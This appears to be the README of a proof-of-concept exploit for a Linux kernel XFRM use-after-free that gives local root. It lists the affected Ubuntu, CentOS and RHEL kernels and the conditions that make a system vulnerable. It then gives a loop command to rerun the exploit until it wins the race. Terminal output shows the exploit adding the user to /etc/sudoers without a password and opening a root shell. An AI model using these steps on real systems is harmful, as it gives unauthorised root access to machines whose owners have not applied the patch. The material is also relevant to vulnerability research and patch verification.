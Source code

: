 ## Linux kernel 3.x - 5.x XFRM UAF PoC 

This is a poc for the [kernel
vulnerability](https://duasynt.com/blog/ubuntu-centos-redhat-privesc) that was
reported last year. CentOS was the last distribution to patch the bug in
January 2020.

The technical report is here https://duasynt.com/pub/vnik/01-0311-2018.pdf

Should work on all kernels with the build date before July - November 2019 on
the following distributions:

- Ubuntu 14.04 / 16.04 Server 4.4 LTS kernels
- CentOS 8 4.18 kernels
- Red Hat Enterprise Linux 8 4.18 kernels
- Ubuntu 18.04 Server LTS 4.15 kernels

Other distributions might be affected if:

- unprivileged usernamespaces are allowed
- xfrm support is compiled in or can be autoloaded
- the patch was not backported

It will probably take several tries to win the race (sometimes over 10
attempts), so run it in a loop just like it says:

```
$ while :; ./lucky0 -q && break; done
```

On success, the current user is added to /etc/sudoers without a password.

```
[vnik@localhost ~]$ cat /etc/redhat-release 
CentOS Linux release 8.1.1911 (Core) 
[vnik@localhost ~]$ uname -a
Linux localhost.localdomain 4.18.0-80.11.2.el8_0.x86_64 #1 SMP Tue Sep 24 11:32:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[vnik@localhost ~]$ while :; do ./lucky0 -q && break; done
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[+] current user vnik was added to /etc/sudoers w/o a password. 'sudo -s' to get a shell
[vnik@localhost ~]$ sudo -s
[root@localhost vnik]# 
```

**On 4.4.x kernels it may trigger a null oops but it's fully recoverable.**
